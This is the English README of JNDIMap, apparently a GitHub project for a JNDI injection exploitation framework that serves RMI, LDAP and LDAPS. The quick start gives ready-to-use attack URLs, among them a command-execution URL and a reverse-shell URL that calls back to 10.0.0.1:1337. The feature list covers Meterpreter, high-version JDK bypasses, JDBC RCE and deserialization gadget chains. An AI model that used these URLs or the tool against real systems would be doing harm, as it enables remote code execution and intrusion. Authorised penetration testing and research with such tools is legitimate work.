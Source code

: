 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap is a powerful JNDI injection exploitation framework that supports RMI, LDAP and LDAPS protocols, including various bypass methods for high-version JDK restrictions
</p>
<p align="center"><a href="README.md">简体中文</a> | English</p>
</p>

## 🚀 Quick Start

Download JNDIMap from the [Release](https://github.com/X1r0z/JNDIMap/releases) page, and pass the `-i` parameter to specify the external IP when running

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

Execute command or reverse shell on the target machine

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 Features

- DNSLog
- Command execution
- Spawn reverse shell
- Spawn Meterpreter 
- Load custom Java bytecode
- Customize payload based on Nashorn JS engine
- BeanFactory Bypass
    - Tomcat
    - Groovy
    - XStream
    - SnakeYaml
    - BeanShell
    - MVEL
    - MLet
    - NativeLibLoader
- JDBC RCE (MySQL/PostgreSQL/H2/Derby)
    - Commons DBCP
    - Tomcat DBCP
    - Tomcat JDBC
    - Alibaba Druid
    - HikariCP
- LDAP Deserialization:
    - CommonsCollections K1-K4
    - CommonsBeanutils183
    - CommonsBeanutils194
    - Jackson
    - Fastjson1
    - Fastjson2

## 📖 Documentation

> Full documentation: [USAGE.en.md](USAGE.en.md)

- [Usage](USAGE.en.md#usage)
- [URL Format](USAGE.en.md#url-format)
- [Basic Functions](USAGE.en.md#basic-functions)
- [BeanFactory Bypass](USAGE.en.md#beanfactory-bypass)
    - [Tomcat ELProcessor](USAGE.en.md#tomcat-elprocessor)
    - [Groovy ClassLoader/Shell](USAGE.en.md#groovy-classloadershell)
    - [XStream](USAGE.en.md#xstream)
    - [SnakeYaml](USAGE.en.md#snakeyaml)
    - [BeanShell](USAGE.en.md#beanshell)
    - [MVEL](USAGE.en.md#mvel)
    - [MLet](USAGE.en.md#mlet)
    - [NativeLibLoader](USAGE.en.md#nativelibloader)
- [JDBC RCE](USAGE.en.md#jdbc-rce)
    - [MySQL](USAGE.en.md#mysql)
        - [MySQL JDBC Deserialization RCE](USAGE.en.md#mysql-jdbc-deserialization-rce)
        - [MySQL Client Arbitrary File Read](USAGE.en.md#mysql-client-arbitrary-file-read)
    - [PostgreSQL](USAGE.en.md#postgresql)
    - [H2 Database](USAGE.en.md#h2)
    - [Apache Derby](USAGE.en.md#derby)
        - [Derby SQL RCE](USAGE.en.md#derby-sql-rce)
        - [Derby Master-Slave Replication Deserialization RCE](USAGE.en.md#derby-master-slave-replication-deserialization-rce)
- [LDAP Deserialization](USAGE.en.md#ldap-deserialization)
- [Script](USAGE.en.md#script)
- [useReferenceOnly](USAGE.en.md#usereferenceonly)

## ⚙️ Compile

The version of [Releases](https://github.com/X1r0z/JNDIMap/releases) may be outdated, it is recommended to pull the source code and compile it yourself when using it (based on JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 References & Acknowledgements

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>